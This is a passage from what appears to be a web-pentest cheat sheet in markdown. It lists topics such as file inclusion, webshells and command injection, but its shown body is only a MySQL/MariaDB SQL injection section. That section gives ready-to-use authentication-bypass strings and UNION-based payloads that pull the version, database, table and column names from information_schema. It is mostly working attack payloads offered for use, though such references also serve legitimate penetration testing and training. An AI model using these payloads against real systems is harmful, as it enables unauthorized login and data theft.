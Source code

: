       - [Filter PHP](#filter-php)
      - [PHP Extension Bypass with Null Bytes](#php-extension-bypass-with-null-bytes)
      - [LFI + File Upload](#lfi--file-upload)
      - [Log Poisoning](#log-poisoning)
    - [Directory traversal - Nuclei](#directory-traversal---nuclei)
      - [Wordlists](#wordlists)
    - [Remote File Inclusion (RFI)](#remote-file-inclusion-rfi)
      - [RFI to Webshell with null byte for image extension bypass](#rfi-to-webshell-with-null-byte-for-image-extension-bypass)
      - [RFI to Webshell with txt](#rfi-to-webshell-with-txt)
  - [OS Command Injection](#os-command-injection)
  - [Common Exploits](#common-exploits)
    - [Shellshock](#shellshock)
    - [WebDAV](#webdav)

## SQL Injection

### MySQL/MariaDB

- Bypass Authentication

```
' or 1=1 -- -
admin' -- -
' or 1=1 order by 2 -- -
' or 1=1 order by 1 desc -- - 
' or 1=1 limit 1,1 -- -
```

- Get number columns

```
-1 order by 3;#
```

- Get version

```
-1 union select 1,2,version();#
```

- Get database name

```
-1 union select 1,2,database();#
```

- Get table name

```
-1 union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="<database_name>";#
```

- Get column name

``` 
-1 union select 1,2, group_concat(column_name) from information_schema.columns where table_schema="<database_name>" and table_name="<table_name>";#
```
